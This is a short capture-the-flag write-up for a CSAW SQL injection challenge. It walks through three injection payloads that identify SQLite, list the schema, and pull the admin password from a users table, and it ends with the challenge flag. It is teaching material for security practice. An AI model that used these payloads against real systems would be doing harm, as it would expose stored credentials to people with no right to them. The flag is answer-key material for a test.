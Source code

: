 # Easy_Search
Oh boy SQLI sure is easy right?

Can you change the query that the search performs to get the admin's password?

[web.chal.csaw.io:10103](http://web.chal.csaw.io:10103)
## Solution
After going to the search page, we need to determine the database being used. Trying the possibilities from http://www.securityidiots.com/Web-Pentest/SQL-Injection/database-type-testing-sql-injection.html,
```
' or sqlite_version()=sqlite_version(); --
```
succeeds (we don't get an error page).

Next, we want to determine the table with the credentials.
```
' union select sql from sqlite_master where type='table'; --
```
We see `users` has a `username` and a `password` field.
```
' union select password from users where username='admin'; --
```
### Flag
`flag{W45_7h47_4n_4c7u4l_VlUn_0NC3}`
